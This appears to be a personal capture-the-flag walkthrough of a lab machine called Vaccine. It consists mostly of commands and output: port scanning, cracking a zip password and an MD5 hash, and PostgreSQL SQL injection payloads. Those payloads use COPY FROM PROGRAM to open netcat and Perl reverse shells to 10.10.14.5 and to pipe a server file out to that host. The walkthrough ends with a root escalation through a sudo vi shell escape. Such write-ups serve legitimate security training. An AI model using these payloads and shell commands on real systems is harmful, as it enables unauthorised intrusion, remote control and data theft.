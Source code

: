 `>> sudo nmap -p- --min-rate=1000 -sS -A -T4 10.10.10.46`  
	21/tcp open  ftp     vsftpd 3.0.3  
	22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)  
	| ssh-hostkey:   
	|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)  
	|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)  
	|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)  
	80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))  
	| http-cookie-flags:   
	|   /:   
	|     PHPSESSID:   
	|_      httponly flag not set  
	|_http-server-header: Apache/2.4.41 (Ubuntu)  
	|_http-title: MegaCorp Login  
  
`>> ssh: robert is not here, cannot ssh with his creds`  
`>> web: index is a login page`  
`>> python dirsearch/dirsearch.py -u http://10.10.10.46 -E`    
	[13:43:32] 403 -  276B  - /.htaccess-local                             
	[13:43:32] 403 -  276B  - /.htaccess-marco  
	[13:43:32] 403 -  276B  - /.htaccess-dev  
	[13:43:32] 403 -  276B  - /.htaccess.bak1    
	[13:43:32] 403 -  276B  - /.htaccess.old  
	[13:43:32] 403 -  276B  - /.htaccess.save  
	[13:43:32] 403 -  276B  - /.htaccessOLD2  
	[13:43:32] 403 -  276B  - /.htaccessOLD  
	[13:43:32] 403 -  276B  - /.htaccess.txt  
	[13:43:32] 403 -  276B  - /.htaccess.sample  
	[13:43:32] 403 -  276B  - /.htaccess.orig  
	[13:43:32] 403 -  276B  - /.htaccessBAK  
	[13:43:32] 403 -  276B  - /.htpasswd-old  
	[13:43:33] 403 -  276B  - /.httr-oauth  
	[13:43:38] 403 -  276B  - /.php                                        
	[13:44:32] 302 -  931B  - /dashboard.php  ->  index.php                        
	[13:44:51] 200 -    2KB - /index.php                          
	[13:44:52] 200 -    2KB - /index.php/login/  
	[13:44:57] 200 -    1KB - /license.txt                                                  
	[13:45:28] 403 -  276B  - /server-status                                               
	[13:45:28] 403 -  276B  - /server-status/  

`>> no passwords accepted, should bruteforce session id?`  

`>> ftp: may be the same as on previous machine`  
It is indeed  
`>> there is a backup file. With a password.`  
`>> fcrackzip -u -v -D -p '/usr/share/wordlists/rockyou.txt' backup.zip`  
	found file 'index.php', (size cp/uc   1201/  2594, flags 9, chk 5722)  
	found file 'style.css', (size cp/uc    986/  3274, flags 9, chk 989a)  


	PASSWORD FOUND!!!!: pw == 741852963  
`>> From index.php`
	if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3")  

Time to dehash. No solt required.  
`>> hashcat -a 0 -m 0 hash.txt /usr/share/wordlists/rockyou.txt`  
	* Runtime...: 2 secs  

	2cb42f8734ea607eefed3b70af13bbd3:qwerty789  
	
	Use better passwords..  

`>> seems like nothing interestion in there... we are not the super admin yet. More like a content admin.`  

However, the serach field is interactive after some <$><\><"><?><'> we find out that we can do SQL injection in there!  
The original query is  
ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^  

Let's make a new queries:  

1) Select * from cars where name ilike '%  
2) aaa' union all select null as int, version(), null as text, null as text, null as text union all select * from cars where name ilike 'aaa  
3) %';  

`>> aaa' union all select null as int, usename, passwd, null as text, null as text from pg_shadow union all select * from cars where name ilike 'aaa`  
postgres 	md52d58e0637ec1e94cdfba3d1c26b67d01  

aaa'; drop table if exists cmd_exec_541; create table cmd_exec_541(cmd_output text); copy cmd_exec_541 from program 'nc -e /bin/sh 10.10.14.5 4444 &'; select null as int, cmd_output, null as text, null as text, null as text from cmd_exec_541 union all select * from cars where name ilike 'aaa  

DROP TABLE IF EXISTS cmd_exec;  
CREATE TABLE cmd_exec_541(cmd_output text);  
COPY cmd_exec FROM PROGRAM 'perl -MIO -e "$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.14.5:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;"';  
SELECT * FROM cmd_exec;  

aaa'; drop table if exists cmd_exec_541; create table cmd_exec_541(cmd_output text); copy cmd_exec_541 from program 'cat /var/www/html/dashboard.php | nc 10.10.14.5 80'; select * from cars where name ilike 'aaa  


as we cannot get rid of 1 and 3, we need to try to make their results to be empty  
Impossibru to establish the reverse shell, but was able to send individual commands to my shell  

$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");  

The same password is ok for ssh apparently.  

`postgres@vaccine:~$ cat user.txt`  
139d3e5c3db18073d250ce0dccc43997  

Time to escalate  
https://payatu.com/guide-linux-privilege-escalation  

`netstat -antup`  
Any root owned listeners? No.  

`ps -aux | grep root`  
Interesting root processess?  
Apache and www are owned by root. Cannot write there.

`id`  
uid=111(postgres) gid=117(postgres) groups=117(postgres),116(ssl-cert)  

`find / -perm -u=s -type f 2>/dev/null`  
Any SUID executables?  

`sudo -l`  
What can user sudo to?  
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf 

Oh really?  
`sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`  

`:!bash`  

`whoami`  
root   

`cat root.txt`  
dd6e058e814260bc70e9bbdef2715849  


PostEx  

Shell upgrade  
`SHELL=/bin/bash script -q /dev/null`  
`python3 -c "import pty; pty.spawn('/bin/bash')"  

SQLi  
`sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=73jv7pdmjsv7dsspoqtnlv66ls"`  
